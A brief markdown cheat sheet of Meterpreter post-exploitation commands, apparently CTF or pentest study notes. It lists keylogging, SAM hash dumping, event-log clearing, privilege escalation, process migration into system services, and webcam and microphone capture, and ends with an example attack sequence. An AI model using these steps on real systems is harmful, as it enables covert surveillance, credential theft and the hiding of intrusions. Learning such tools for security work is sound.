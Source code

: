# Meterpreter
 `getpid` -> `ps`
`help` - different results based on OS, components, and connections

#### Core commands
`background`, `exit`
`guid` - get the session Globally Unique Identifier
`info MODULE` - show info on a Post module
`irb` - interactive Ruby shell
`load EXT` - load meterpreter extension
`run EXPLOIT_PATH/MODULE` - execute script or post module
`migrate` - migrates meterpreter to another process 
> (services.exe, wininit.exe, svchost.exe, lsm.exe, lsass.exe, and winlogon.exe)

#### File system:
`search -f  REGEX_PATTERN`
`cd, ls, pwd, edit, cat, rm, search, upload, download`

#### Networking:
`arp` - displays host ARP cache
`ifconfig`
`netstat` - display network connections
`portfwd` - forwards a local port to a remote service
`route` - view and modify routing table

#### System:
`clearev` - clear event logs
`getuid` - shows the user that meterpreter is running as
`kill`, `pkill` - by number, by name
`shell` - drops into system command shell
`execute, getpid, sysinfo, ps, reboot, shutdown`

#### Other:
i`dletime` - number of seconds the remote user has been idle
`keyscan_dump` - dump keystroke buffer
`keyscan_start`, keyscan_stop
`screenshare, screenshot`
`record_mic, webcam_list, webcam_snap`
`webcam_chat` - starts video chat
`webcam_stream` - plays video stream from specified webcam
`getsystem` - attempts elevating privileges to local system
`hashdump` - dump content of the SAM (Security Account Manager) database stored in NTLM (New Tech LAN Manager) format

#### Example Post-Exploitation commands:
`help`
`meterpreter > getuid` -> `NT AUTHORITY\SYSTEM` = admin on windows
`ps` -> `migrate XXX` -> `keyscan_start` -> `keyscan_stop` -> `keyscan_dump` (migrate to word.exe to catch keystrokes)
`hashdump`
`search -f *flag*.txt`
`shell` -> CTRL-Z to return to meterpreter